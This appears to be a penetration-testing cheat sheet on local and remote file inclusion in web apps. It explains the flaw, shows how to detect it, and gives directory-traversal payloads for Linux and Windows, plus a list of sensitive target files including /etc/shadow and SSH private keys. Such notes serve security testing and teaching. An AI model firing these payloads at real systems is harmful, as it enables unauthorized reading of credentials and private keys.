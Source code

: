 # WebApps - Local & Remote File Inclusion [LFI/RFI]

The File Inclusion vulnerability allows for the include of a file locally
present on the server or remotely hosted on a webserver, usually exploiting a
"dynamic file inclusion" mechanisms implemented in the target application.  

This issue is caused when an application builds a path to executable code using
an attacker-controlled variable in a way that allows the attacker to control
which file is executed at run time. The vulnerability occurs due to the use of
user-supplied input without proper validation.

A file include vulnerability is distinct from a generic Directory Traversal
Attack, in that directory traversal is a way of gaining unauthorized file
system access, and a file inclusion vulnerability subverts how an application
loads code for execution.

### File Inclusion vulnerability detection

In black box testing, look for scripts which take filenames as parameters,
such as the following examples:

```
http://vulnerable_host/preview.php?file=example.html
http://vulnerable_host/?op=home
```

Try to access freely accessible files, such as:

```
# Linux
/etc/passwd

# Windows
WINDOWS\System32\drivers\etc\hosts
```

### File access

###### Basic

Typical proof-of-concept for basic LFI would be:

```
# Linux
?file=../../../../../../../../../../etc/passwd

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts
```

###### Files of interest

The following Linux files can be of interest:

```
# System information
/etc/issue

# System users account information
/etc/passwd

# System users account hashed password
/etc/shadow

# System groups information
/etc/group

/home/<USERNAME>/.ssh/id_rsa
```